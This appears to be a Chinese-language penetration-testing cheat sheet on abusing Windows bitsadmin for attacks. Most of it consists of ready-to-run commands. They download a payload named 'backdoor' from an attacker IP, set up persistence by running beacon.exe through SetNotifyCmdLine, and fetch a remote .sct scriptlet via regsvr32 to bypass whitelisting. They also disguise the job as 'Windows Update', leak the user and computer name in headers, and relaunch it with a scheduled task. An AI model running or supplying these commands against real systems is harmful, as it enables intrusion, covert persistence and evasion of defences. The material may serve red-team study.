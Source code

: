 ## bitsadmin

Microsoft 提供了一个名为“ **bitsadmin** ”的二进制文件和 PowerShell cmdlet，用于创建和管理文件传输

### 基础命令

#### 显示所有用户的 BITS 任务列表

```cmd
# 包括活动任务和已完成任务
bitsadmin /list /allusers

# 更详细的信息
bitsadmin /list /allusers /verbose
```

#### 删除任务

```cmd
bitsadmin /cancel <Job Name>
```

#### 下载方式

##### Cmd

```cmd
bitsadmin /transfer backdoor /download /priority high http://IP:Port/Filename <path to executable>
```

##### PowerShell

```powershell
Start-BitsTransfer -Source "http://IP:Port/Filename" -Destination "<path to executable>"
```

### 利用方法

将文件写入磁盘后，可以通过从“ **bitsadmin** ”实用程序执行以下命令来实现持久化

1. 创建参数需要作业的名称
2. addfile需要文件的远程位置和本地路径
3. SetNotifyCmdLine将执行的命令
4. SetMinRetryDelay定义回调的时间（以秒为单位）
5. resume参数将运行位作业。

```cmd
bitsadmin /create backdoor
bitsadmin /addfile backdoor "http://IP:Port/Filename"  "<path to executable>"
bitsadmin /SetNotifyCmdLine backdoor C:\tmp\beacon.exe NUL
bitsadmin /SetMinRetryDelay "backdoor" 60
bitsadmin /resume backdoor
```
## SetNotifyCmdLine

**SetNotifyCmdLine** 参数还可用于通过[regsvr32](https://pentestlab.blog/2017/05/11/applocker-bypass-regsvr32/)实用程序从远程位置执行 scriptlet。这种方法的好处是不接触磁盘，可以绕过白名单

```cmd
# Usage
bitsadmin /setnotifycmdline <job> <program_name> [program_parameters]
bitsadmin /resume backdoor

# 创建一个新的Job,命名为Windows Update
bitsadmin /Create "Windows Update"

# 指定一个下载任务和下载的地址
bitsadmin /AddFile "Windows Update" "http://192.168.19.129:8080/hXvPWuHBr.sct" "C:\scrobj.dll"

# 设置触发事件的条件
bitsadmin /SetNotifyFlags "Windows Update" 1

# 设置作业完成数据传输或作业进入状态将运行的命令行程序
bitsadmin /SetNotifyCmdLine "Windows Update" "%COMSPEC%" "cmd.exe /c bitsadmin.exe /complete \"Windows Update\" && start /B regsvr32 /s /n /u /i:http://192.168.19.129:8080/hXvPWuHBr.sct scrobj.dll"

# 设置下载任务出错时重传的延迟
bitsadmin /SetMinRetryDelay "Windows Update" 60

# 添加自定义的HTTP头
bitsadmin /SetCustomHeaders "Windows Update" "Caller:%USERNAME%@%COMPUTERNAME"

# 激活新的任务
bitsadmin /Resume "Windows Update" 

# 使用schtasks命令建立计划任务来加载bitsadmin执行”Windows Update“
schtasks /Create /TN "Windows Update" /TR "%WINDIR%\system32\bitsadmin.exe /resume \"Windows Update\"" /sc minute /MO 30 /ED(此任务的最后一次运行时间) 2023/08/30 /ET 00:00(最后一次的运行时间) /Z(在任务运行完毕后删除任务) /IT(标志此任务只有在登录情况下才运行) /RU %USERNAME%(指定运行的用户账户)  
```
